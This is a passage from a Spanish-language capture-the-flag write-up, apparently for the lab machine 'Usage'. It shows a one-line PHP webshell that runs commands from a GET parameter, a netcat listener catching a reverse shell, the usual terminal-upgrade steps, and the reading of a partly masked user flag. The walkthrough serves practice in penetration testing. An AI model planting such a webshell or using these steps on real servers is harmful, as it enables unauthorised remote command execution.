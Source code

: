 Por lo que ya podremos ejecutar comandos en el servidor simplemente subiendo una webshell sencilla como esta:

```php
<?php
  system($_GET['uwu']);
?>
```
{: file="test.php"}

Enviándole el comando que queremos ejecutar en el parámetro `uwu`, podremos enviarnos una reverse shell:

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.18 51450
bash: cannot set terminal process group (1247): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/var/www/html/project_admin/public/uploads/images$ script /dev/null -c bash # Iniciar un nuevo proceso con una tty alocada      
Script started, output log file is '/dev/null'.
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z # CTRL + Z
[1]  + 10150 suspended  nc -lvnp 443

❯ stty raw -echo; fg  # Pasar controles de la terminal al proceso
[1]  + 10150 continued  nc -lvnp 443
                                    reset xterm # Reiniciar la terminal
dash@usage:/var/www/html/project_admin/public/uploads/images$ stty rows 34 columns 149 # Ajustar filas y columnas
dash@usage:/var/www/html/project_admin/public/uploads/images$ export TERM=xterm-256color # Establecer el tipo de terminal
dash@usage:/var/www/html/project_admin/public/uploads/images$ bash
```

En la carpeta personal de este usuario, podremos encontrar la primera flag:

```bash
dash@usage:~$ ls -la
total 52
drwxr-x--- 6 dash dash 4096 Aug 16 22:04 .
drwxr-xr-x 4 root root 4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root    9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash 3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash 4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash 4096 Aug 20  2023 .config
drwxrwxr-x 3 dash dash 4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash   32 Oct 26  2023 .monit.id
-rw-r--r-- 1 dash dash    5 Aug 16 22:04 .monit.pid
-rw------- 1 dash dash 1192 Aug 16 22:04 .monit.state
-rwx------ 1 dash dash  707 Oct 26  2023 .monitrc
-rw-r--r-- 1 dash dash  807 Jan  6  2022 .profile
drwx------ 2 dash dash 4096 Aug 24  2023 .ssh
-rw-r----- 1 root dash   33 Aug 16 21:46 user.txt
dash@usage:~$ cat user.txt
cb5c1137bd2beb4eecab174a2d******
```
